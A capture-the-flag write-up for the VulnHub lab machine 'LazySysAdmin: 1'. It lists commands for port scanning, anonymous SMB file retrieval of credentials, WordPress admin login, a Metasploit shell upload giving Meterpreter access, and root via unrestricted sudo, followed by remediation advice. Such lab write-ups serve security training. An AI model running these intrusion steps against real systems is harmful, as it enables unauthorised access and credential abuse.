





# LazySysAdmin: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.56.X (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux (Ubuntu) |
| **Flag** | `/root/proof.txt` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/lazysysadmin-1,205/) |

## Attack Summary

Network scan → SMB anonymous login → read `deets.txt` (password `12345`) and `wp-config.php` (MySQL/WP admin password `TogieMYSQL12345^^`) → Metasploit `wp_admin_shell_upload` → Meterpreter → `togie` user (same password) → `sudo -l` → root.

## Methodology

1. Network discovery and port scan
2. SMB anonymous login and file enumeration
3. Extract credentials from `deets.txt` and `wp-config.php`
4. Exploit WordPress admin with Metasploit
5. Privilege escalation via unrestricted sudo

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
nmap -p- -sV 192.168.56.X
```



Key open ports:
- **22** — SSH (OpenSSH)
- **80** — HTTP (WordPress)
- **139/445** — Samba
- **3306** — MySQL

---

## Step 2: SMB Anonymous Login

List available shares:

```bash
smbclient -L 192.168.56.X
```

Connect to the `share$` share (no password):

```bash
smbclient '\\192.168.56.X\share$'
```



```bash
smb: \> ls
smb: \> get deets.txt
smb: \> get todolist.txt
smb: \> cd wordpress\
smb: \> get wp-config.php
smb: \> quit
```

Read the files:

```bash
cat deets.txt
# CBF Sysadmin
# ...
# Password: 12345

cat todolist.txt
# Ignore SSL, Fix WordPress

cat wp-config.php | grep -E "DB_USER|DB_PASSWORD"
# DB_USER = 'Admin'
# DB_PASSWORD = 'TogieMYSQL12345^^'
```

---

## Step 3: WordPress Access

The WordPress admin password is the same as the MySQL password.

Login to `http://192.168.56.X/wordpress/wp-admin/` with:
- **Username:** `admin`
- **Password:** `TogieMYSQL12345^^`



---

## Step 4: Exploit via Metasploit wp_admin_shell_upload

```bash
msfconsole -q
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 192.168.56.X
set TARGETURI /wordpress
set USERNAME admin
set PASSWORD TogieMYSQL12345^^
exploit
```



Meterpreter session opens as `www-data`.

```bash
meterpreter > shell
python -c 'import pty;pty.spawn("/bin/bash")'
id
# uid=33(www-data)
```

---

## Step 5: Lateral Movement to `togie`

The `deets.txt` password (`12345`) works for the `togie` account:

```bash
su togie
# Password: 12345
id
# uid=1000(togie)
```

---

## Step 6: Privilege Escalation — Unrestricted sudo

```bash
sudo -l
# User togie may run the following commands on this host:
# (ALL : ALL) ALL
```

`togie` has unrestricted sudo access. Escalate to root:

```bash
sudo su
id
# uid=0(root) gid=0(root)
```



```bash
cat /root/proof.txt
```

---

## Credentials Summary

| Source | Username | Password |
|--------|----------|----------|
| `deets.txt` (SMB share) | `togie` | `12345` |
| `wp-config.php` (SMB share) | `admin` (WordPress/MySQL) | `TogieMYSQL12345^^` |

---

## Lessons Learned

1. **SMB anonymous login** exposed a full web application directory including `wp-config.php`
2. **wp-config.php** contains database credentials — never expose it via file shares
3. **Password reuse** — MySQL password worked for WordPress admin
4. **`togie` had unrestricted sudo** — users should have minimal sudo access
5. **Credential reuse across services** — `deets.txt` password was valid for SSH too

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SMB anonymous access | Disable guest/anonymous share access |
| wp-config.php in SMB share | Never serve web application files via SMB |
| Unrestricted sudo | Apply principle of least privilege |
| Weak password (12345) | Enforce strong password policy |
| Credential reuse | Use unique passwords per service |
